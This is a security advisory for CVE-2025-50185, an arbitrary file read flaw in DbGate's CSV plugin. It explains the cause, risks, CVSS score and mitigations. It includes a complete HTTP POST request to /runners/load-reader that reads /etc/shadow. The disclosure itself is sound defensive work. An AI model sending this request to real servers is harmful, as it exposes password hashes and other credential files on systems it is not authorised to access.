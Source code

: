 ### DbGate Arbitrary File Read Vulnerability (CVE-2025-50185)

The security of database management tools is paramount, as they often handle and provide access to critical system resources and sensitive data. A vulnerability in such a tool can lead to severe data breaches, compromising the integrity and confidentiality of an entire system. This write-up details a critical arbitrary file read vulnerability identified in DbGate, a cross-platform database manager.

### Vulnerability Details

A critical arbitrary file read vulnerability, tracked as **CVE-2025-50185**, has been identified in DbGate. This flaw allows an authenticated attacker with application-level access to read arbitrary files from the underlying operating system.

**Affected Software and Versions:**
*   **Software:** DbGate (cross-platform database manager)
*   **Affected Versions:** 6.6.0 and below

**Technical Cause:**
The vulnerability stems from **insufficient validation of file paths and types** within the `dbgate-plugin-csv` component, specifically through the `reader` function. The application fails to enforce proper checks on content type and file extension before attempting to read a file specified by a user.

An attacker can exploit this by sending a crafted POST request to the `/runners/load-reader` endpoint. By manipulating the `fileName` parameter within the JSON payload, an attacker can specify an arbitrary file path on the server's file system.

**Example Payload:**

```http
POST /runners/load-reader HTTP/1.1
Host: <REPLACE ME>
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:138.0) Gecko/20100101 Firefox/138.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: <REPLACE ME>
Content-Type: application/json
Authorization: Bearer <REPLACE ME>
Content-Length: 127
Origin: http://192.168.124.119:3000
Connection: keep-alive
Cookie: <REPLACE ME>
Priority: u=0
Cache-Control: max-age=0

{"functionName":"reader@dbgate-plugin-csv","props":{"fileName":"/etc\/shadow","limitRows":100}}
```

In this example, the `fileName` parameter is set to `/etc/shadow`, a highly sensitive system file on Linux systems containing hashed user passwords. The application processes this request and returns the contents of the specified file.

**Potential Risks:**
This **arbitrary file read** vulnerability poses a significant risk of **data exposure**. An attacker can retrieve sensitive information, including:
*   Configuration files
*   Log files
*   Source code
*   Credentials
*   Operating system files (e.g., `/etc/passwd`, `/etc/shadow`)

Even files typically accessible only to the root user can be read through this interface, leading to unauthorized information disclosure that could facilitate further attacks, such as privilege escalation or lateral movement.

**CVSS v4.0 Score:**
The vulnerability has been assigned a CVSS v4.0 score of **7 (HIGH)**, with the vector `CVSS:4.0/AV:N/AC:L/AT:N/PR:L/UI:N/VC:H/VI:N/VA:N/SC:H/SI:N/SA:N/E:P/CR:X/IR:X/AR:X/MAV:X/MAC:X/MAT:X/MPR:X/MUI:X/MVC:X/MVI:X/MVA:X/MSC:X/MSI:X/MSA:X/S:X/AU:X/R:X/V:X/RE:X/U:X`.

### Recommendations

As of the publication date (2025-07-26), there is **currently no fix** available for this issue. Therefore, users and administrators of DbGate versions 6.6.0 and below should implement the following mitigations:

*   **Restrict Access:** Limit access to the DbGate application interface to trusted personnel only. Implement strong authentication and authorization mechanisms.
*   **Network Segmentation:** Isolate the DbGate server from other critical systems and sensitive data within the network.
*   **Least Privilege:** Ensure that the DbGate application runs with the minimum necessary permissions required for its operation, reducing the potential impact of file system access.
*   **Monitor Activity:** Implement robust logging and monitoring for unusual access patterns or requests involving file reading, especially to sensitive system paths.
*   **Alternative Solutions:** Consider using an alternative, more secure database management tool until a fix for this vulnerability is released.

Developers should prioritize implementing stringent input validation for all file path parameters, ensuring that only expected file types and locations are accessed.

### Reference

For further technical details on the vulnerable code section, refer to:
[https://github.com/dbgate/dbgate/blob/v6.6.0/plugins/dbgate-plugin-csv/src/backend/reader.js#L71-L102](https://github.com/dbgate/dbgate/blob/v6.6.0/plugins/dbgate-plugin-csv/src/backend/reader.js#L71-L102)